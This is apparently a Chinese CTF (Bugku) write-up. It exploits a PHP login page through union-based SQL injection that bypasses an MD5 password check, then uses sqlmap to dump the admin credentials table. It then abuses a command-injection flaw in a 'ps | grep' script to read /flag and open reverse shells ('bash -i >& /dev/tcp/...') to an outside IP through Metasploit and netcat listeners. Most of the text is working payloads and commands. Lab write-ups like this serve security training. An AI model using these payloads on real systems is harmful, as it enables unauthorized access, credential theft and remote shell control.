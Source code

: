 ## 源码

```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```

## playload

```payload
username=' union select 1,md5(1)#&password=1
```

执行这条语句时由于前面的username为空，所以没有数据返回，但后面的union select md5(1),md5(1)则会返回两个MD5(1)的值，然后password我们也置为1，从而绕过if语句的判断。

###还原语句为：

```
SELECT username,password FROM admin WHERE username='' union select 1,md5(1)-- -&password=1'
```

此时我们可以 username=''， 两个 sql 语句进行联合操作时，当前一个语句选择的内容为空， 我们这里就将后面的语句的内容显示出来

## sqlmap

```sh
sqlmap -r burp_sql.txt --level 5 --batch

sqlmap -r burp_sql.txt --dbs
sqlmap -r sql.txt  --dbs -D bugkuctf --tables
sqlmap -r sql.txt  --dbs -D bugkuctf -T admin --columns
sqlmap -r sql.txt  --dbs -D bugkuctf -T admin -C username,password --dump
```

## 登录成功...

```
apache 6414 0.0 0.0 11348 1256 ? S 02:08 0:00 sh -c ps -aux | grep 123
apache 6416 0.0 0.0 6428 592 ? S 02:08 0:00 grep 123
```

```
123|ls
```

没有回显 

### 采用写入文件二次返回的方法查看结果

```
123|ls ../../../>test
访问 http://114.67.246.176:11727/test
123|cat /flag>test
访问 http://114.67.246.176:11727/test
```

### msf

```ruby
c=123 ; bash -i >& /dev/tcp/47.95.142.60/4444 0>&1

use exploit/multi/handler
set payload linux/armle/shell/reverse_tcp
set lport 4444
set lhost 47.95.142.60
exploit 
```

### nc

```
nc -lvv 8080

|bash -i >& /dev/tcp/47.95.142.60/8080 0>&1
```



## 控制回显

```php
<?php
if(isset($_POST['c'])){
        $cmd = $_POST['c'];
        exec('ps -aux | grep '.$cmd, $result);
        foreach($result as $k){
                if(strpos($k, $cmd)){
                        echo $k.'<br>';
                }
        }
}
?>
```